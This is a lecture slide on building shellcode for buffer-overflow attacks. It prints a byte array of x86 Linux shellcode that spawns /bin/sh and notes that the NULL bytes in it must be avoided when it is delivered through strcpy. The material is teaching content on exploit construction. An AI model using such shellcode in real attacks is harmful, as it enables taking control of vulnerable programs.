

# Building Shell Code
char shellcode[] =
	"\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
	"\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
	"\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
	"\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";
Another issue:
strcpy stops when it hits a NULL byte
Solution:
Alternative machine code that avoids NULLs